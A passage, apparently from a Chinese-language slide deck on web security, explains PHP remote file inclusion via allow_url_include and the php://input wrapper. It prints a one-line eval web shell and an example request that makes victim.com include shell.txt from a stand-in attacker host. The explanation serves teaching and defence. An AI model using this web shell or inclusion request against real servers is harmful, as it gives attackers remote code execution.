

包含攻击者服务器上的恶意文件
由于allow_url_fopen与 allow_url_include 是开启的，攻击者可以将包含恶意代码的文件放在自己的服务器上，例如一个内容为<?php eval($_POST[‘pass’]);?>的shell.txt文件，构造恶意请求http://www.victim.com/index.php?func=http://www.hacker.com/shell.txt，shell.txt中的恶意代码就会在目标服务器上执行。

2. 通过PHP伪协议进行包含
在PHP中，如果allow_url_fopen和allow_url_include同时开启的情况下，include等函数支持从PHP伪协议中的php://input处获取输入流，关于PHP伪协议的相关知识会在下一小节中讨论，这里只关注其中的php://input。
php://input可以访问请求的原始数据的只读流，也就是通过POST方式发送的内容。借助PHP伪协议，攻击者直接将想要在服务器上执行的恶意代码通过POST的方式发送给服务器就能完成攻击。